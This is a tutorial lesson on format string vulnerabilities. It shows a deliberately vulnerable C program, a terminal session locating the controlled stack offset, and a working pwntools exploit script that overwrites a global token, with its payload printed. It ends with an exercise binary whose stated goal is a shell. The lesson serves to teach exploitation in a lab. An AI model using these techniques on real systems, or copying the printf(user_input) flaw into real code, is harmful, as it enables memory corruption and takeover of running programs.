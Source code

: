# 11. Format String Vulnerabilties

### Format String Vulnerabilties

Yes, I know this is a really cliche topic but I am just covering one cool thing that you can do with pwntools. That's all, I promise. Now, we will be looking at this simple program that is vulnerable to a format string attack. The idea is to modify the token so that it contains 0xcafebabe when the check occurs.

```
#include <stdio.h>
#include <stdlib.h>

unsigned int token = 0xdeadbeef;

int main() {
    char buffer[200];
    scanf("%199s", buffer);
    printf(buffer);
    printf("\nToken = 0x%x\n", token);
    if (token == 0xcafebabe) {
        puts("Winner!");
    }
    else {
        puts("Loser!");
    }
}
```

So after playing around with the program, we figure out that the first format argument we control is at offset 5.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/13_fmt_str/scripts$ ../build/2_overwrite
AAAA%5$x
AAAA41414141
Token = 0xdeadbeef
Loser!
```

Next, we need the address of the token.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/13_fmt_str/scripts$ nm ../build/2_overwrite | grep token
0804a028 D token
```

Now we can write our exploit script. Pwntools actually has a format string attack generator so we can beat the binary in a few quick easy lines.

```
#!/usr/bin/python

from pwn import *

token_addr = 0x0804a028

def main():
    p = process("../build/2_overwrite")
    payload = fmtstr_payload(5, {token_addr: 0xcafebabe})
    log.info("Sending payload: %s" % payload)
    p.sendline(payload)

    data = p.recvall()
    realdata = data[data.find("Token"):]
    log.success(realdata)

if __name__ == "__main__":
    main()
```

Running the program.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/13_fmt_str/scripts$ python 1_overwrite_token.py
[+] Starting local process '../build/2_overwrite': Done
[*] Sending payload: (�)�*�+�%174c%5$hhn%252c%6$hhn%68c%7$hhn%204c%8$hhn
[▁] Receiving all data: 0B
[+] Receiving all data: Done (742B)
[+] Token = 0xcafebabe
    Winner!
```

### Exercises

#### Ex 13.1: Echoes

Before you continue onto the more advanced exercises, here's something to tackle. The source code to this challenge is given:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    char echoed[1000] = {0};
    char number[200];
    int times;
    int i;
    while (1) {
        read(0, echoed, 999);
        puts("How many times do you want it echoed?");
        scanf("%199s", number);
        times = atoi(number);
        for (i = 0; i < times; i++) {
            printf(echoed);
        }
    }
}
```

The binary to the exercise can be found here. The remote target is `nc localhost 1903` and the goal is to get a shell.
